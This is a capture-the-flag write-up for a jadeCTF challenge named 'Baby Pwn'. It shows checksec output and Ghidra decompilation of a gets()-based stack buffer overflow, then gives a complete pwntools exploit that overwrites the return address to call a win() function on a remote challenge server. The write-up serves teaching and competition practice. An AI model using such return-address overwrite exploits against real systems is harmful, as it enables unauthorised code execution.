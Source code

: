 # Baby Pwn
We are given a binary.  
First, run checksec on it:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

On analyzing it with Ghidra, we find the `start_program()` function:
```c
void start_program(void)

{
  char local_208 [512];
  
  puts("Enter your name:");
  gets(local_208);
  printf("Hello %s, welcome to jadeCTF!\n",local_208);
  return;
}
```
This is a simple Buffer Overflow. There is also a `win()` function which we need to call:
```c
void win(void)

{
  char local_78 [104];
  FILE *local_10;
  
  puts("Nice job :)");
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("Sorry, flag doesn\'t exist.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_78,100,local_10);
  printf("Here is your flag: %s\n",local_78);
  return;
}
```
We can overflow the `local_208` variable and call the `win()` function to get the flag.  
**solve.py**
```py
from pwn import *

BINARY = "chall"

context.binary = BINARY
elf = context.binary

# p = elf.process()
p = remote("34.76.206.46", 10002)

OFFSET = 0x200 + 8

payload = cyclic(OFFSET)
payload += p64(elf.symbols["win"])

p.sendlineafter(b"Enter your name:\n", payload)
p.interactive()
```